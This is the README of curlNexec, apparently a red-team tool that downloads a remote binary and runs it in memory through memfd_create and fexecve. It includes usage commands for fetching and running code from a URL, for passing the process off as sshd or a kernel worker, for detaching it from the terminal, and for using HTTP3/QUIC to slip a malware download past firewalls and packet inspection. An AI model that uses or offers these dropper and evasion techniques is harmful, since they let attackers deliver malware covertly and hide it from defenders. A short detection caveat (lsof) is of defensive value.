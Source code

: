 <h1 align=center> curlNexec </h1>

<div align="center">
<code>👋 Certainly useful , mainly for fun, rougly inspired by 0x00 <a href="https://0x00sec.org/t/super-stealthy-droppers/3715">article</a></code>
</div>

## Short story

`curlNexec` enable us to execute a remote binary on a local machine in one step

 - simple usage `curlNexec <binary_url>`
 - execute binary with specified program name: `curlNexec -n /usr/sbin/sshd <binary_raw_url>`
 - retrieve remote binary using http3 protocol and execute it: `curlNexec -http3 <binary_raw_url>`
 - detach program execution from `tty`: ` setsid curlNExec [...]` 

![demo](https://github.com/ariary/curlNexec/blob/main/img/curlNexec.gif)

<details>
  <summary><b>Explanation</b></summary>
We want to execute <code>writeNsleep</code> binary locate on a remote machine, locally. 

We first start a python http server on remote.
Locally we use <code>curlNexec</code> and impersonate the <code>/usr/sbin/sshd</code> name for the execution of the binary <code>writeNsleep</code>(for stealthiness & fun)

</details>

## Stealthiness story

* The binary file is not mapped into the host file system
* The execution program name could be customizable
* Bypass 3rd generation firewall could be done with http3 support

### memfd_create
The remote binary file is stored locally using `memfd_create` syscall, which store it within a _memory disk_ which is not mapped into the file system (*ie* you can't find it using `ls`).

### fexecve
Then we execute it using `fexecve` syscall (as it is currently not provided by `syscall` golang library we implem it). 

> With `fexecve` , we could but we reference the program to run using a
> file descriptor, instead of the full path.

### HTTP3/QUIC
<table><tr><td>
Enable it with <code>-Q</code>/<code>http3</code>  flag. <br>
You can setup a light web rootfs server supporting http3 by running `go run ./test/http3/light-server.go -p <listening_port>` (This is http3 equivalent of ` python3 -m http.server <listening_port>`)<br>
use `test/http3/genkey.sh` to generate cert and key.

 
 </td></tr></table>
 
`QUIC` UDP aka `http3` is a new generation Internet protocol that speeds online web applications that are susceptible to delay, such as searching, video streaming etc., by reducing the round-trip time (RTT) needed to connect to a server.

Because QUIC uses proprietary encryption equivalent to TLS (this will change in the future with a standardized version), **3rd generation firewalls that provide application control and visibility encounter difficulties to control and monitor QUIC traffic**.

If you actually use `curlNexec` as a dropper (***Only for testing purpose or with the authorization***), you likely to execute some type of malwares or other file that could be drop by packet analysis. Hence, with Quic enables you could **bypass packet analysis and GET a malware**.

Also, in case firewall is only used for allowing/blocking traffic it could happen that **firewall rules forget the udp protocol making your requests go under the radars**

### other skill for stealthiness

Although not present on the memory disk, the running program can still be detected using `ps` command for example. 

 1. Cover the tracks with a fake program name
 
`curlNexec --name <fake_name> <binary_raw_url>` by default the name is `[kworker/u:0]` 
 2. Detach from tty to map behaviour of deamon process
 
`setsid curlNexec <binary_raw_url>`. *WIP call `setsid` from code*

### Caveats
You could still be detected with:
```
$ lsof | grep memfd
```
